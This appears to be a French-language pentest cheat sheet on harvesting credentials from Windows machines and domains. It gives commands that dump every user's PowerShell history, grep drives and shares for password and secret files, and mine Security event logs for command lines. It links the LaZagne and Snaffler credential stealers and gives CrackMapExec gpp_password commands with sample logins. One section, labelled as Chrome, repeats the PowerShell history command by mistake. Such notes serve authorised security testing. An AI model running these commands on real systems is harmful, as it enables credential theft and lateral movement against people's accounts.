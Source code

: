 ```yaml
---
public: true
---
```

## Dossiers intéressants
- `c:\`
- `%USERPROFILE%\`
- `%USERPROFILE%\Documents`
- `%USERPROFILE%\Desktop`


# Historiques Powershell 

```powershell
Gci c:\Users -Directory | Select -ExpandProperty Name | %{ gc "C:\Users\$_\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

## Dictionnaire Google Chrome

```powershell-session
Gci c:\Users -Directory | Select -ExpandProperty Name | %{ gc "C:\Users\$_\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}

```

## Barre de recherche Windows

Mots à tenter dans la barre de recherche du menu Démarrer

```
Passwords
Passphrases
Keys
Username
User account
Creds
Users
Passkeys
Passphrases
configuration
dbcredential
dbpassword
pwd
Login
Credentials
```

## Findstr

```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

## Noms de fichiers intéressants

```batch
dir c:\*cred* /s /b 
dir c:\*secret* /s /b
```

```powershell
Get-ChildItem -Recurse -Path C:\ -Include *cred* -File
```

## Contenus de fichiers intéressants

```
findstr /s /i cred c:\*.*
```

```powershell
Get-ChildItem -Recurse -Path C:\ | Select-String "cred" -List
```

```
REM 
dir n:\*cred* /s /b 
dir n:\*secret* /s /b

REM Recherche de mot intéressants dans des fichiers
findstr /s /i cred n:\*.*

n:\Contracts\private\secret.txt
```

## Observateur d'évènement

Si on est membre du groupe `Event Log Readers`, on pourra consulter l'observateur d'évènements.

Si les Event ID 4688 (Un nouveau processus a été créé) sont audités, on pourra potentiellement trouver lignes de commandes incluant des nom de compte utilisateur (voir des mots de passe).

```shell
###### nécessite d'être membre du gruope "Event Log Readers"
# Affiche toutes les lignes de commande auditées
wevtutil qe Security /rd:true /f:text | Select-String "line"
# Affiche les lignes contenant '/user'
wevtutil qe Security /rd:true /f:text | Select-String "/user"
# avec credentials alternatifs
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

Version Powershell (**Nécessite d'être Administrateur local**)

```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```

## Snaffler

<https://github.com/SnaffCon/Snaffler/releases/download/1.0.132/Snaffler.exe>

## Lazagne

<https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe>

```
C:\Users\bob\Desktop> start lazagne.exe all
```

## Mots de passe dans les stratégies de groupe

```
# cme smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password

Local admin:
# cme smb 10.0.5.1 -u Administrator -p P@ss123 -d . -M gpp_password
# cme smb 10.0.5.1 -u Administrator -p P@ss123 --local-auth -M gpp_password

Domain user:
# cme smb 10.0.5.1 -u bkpadmin -p P@ss123 -d target.corp -M gpp_password
```

## Autre

Passwords in scripts in different shares :

- SYSVOL
- IT shares

Passwords in web.config files on dev machines and IT shares

unattend.xml

Passwords in the AD user or computer description fields

KeePass databases --> pull hash, crack and get loads of access.

Found on user systems and shares

Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint
